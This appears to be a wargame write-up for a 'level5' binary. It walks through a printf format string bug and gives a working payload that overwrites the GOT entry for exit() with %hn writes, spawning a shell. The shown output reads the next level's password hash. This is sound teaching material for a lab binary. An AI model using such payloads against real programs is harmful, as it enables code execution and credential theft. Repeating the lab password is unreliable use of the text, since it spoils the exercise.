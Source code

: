 this is another binary that has format string but with another twist.

```c
void    o() {
    system("/bin/sh");
    _exit(1);
}

void    n() {
    char    buff[520];

    fgets(buff, 512, stdin);
    printf(buff);

    exit(1);
}

int main(void) {
    n();
}
```

as you can see the o function is never called so we have to reach it somehow.
buffer overflow is out of the question because the program uses fgets with a length smaller than the buffer size

we will be introduced to a new concept which is overwriting the `GOT`.

since we call `exit` function in `n()` and there is no GOT protection we can overwrite the address of `exit` using format string. in doing so the stub in plt(procedure linkage table) will jump the any address we want:

```x86asm
   0x080483d0 <+0>:	    jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:	    push   0x28
   0x080483db <+11>:	jmp    0x8048370
```
we can see which address the stub jumps to, all we need is the correct payload to overwrite it.

same thing as the previous challenges but with some adjusments.

since we want to write an address which is too big if we plan to use `n` specifier for `printf` we need a work around. instead of using %n we will be using %hn to write the first 4 bytes and the 2nd separatly:

```bash
(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"'; cat) | ./level5
```

what i did here is :

- wrote both 0x08049838 and 0x08049838 + 4 = 0x0804983a in the stack
- looked at the address i want to write (of func `o()`) 0x080484a4 and realized that the upper 4 bytes are smaller so they should be written first (since n specifier takes the length of your input and write it to the address specified)
- 0x0804 => 2052; 2052 - 8 (the length of the 2 addresses we gave in our input) = 2044
- 0x84a4 => 33956; 33956 - 2052 (0x84a4 - 0x0804) = 31904

```
(python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"'; cat) | ./level5
...
      b7fd1ac0
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

and there you go.
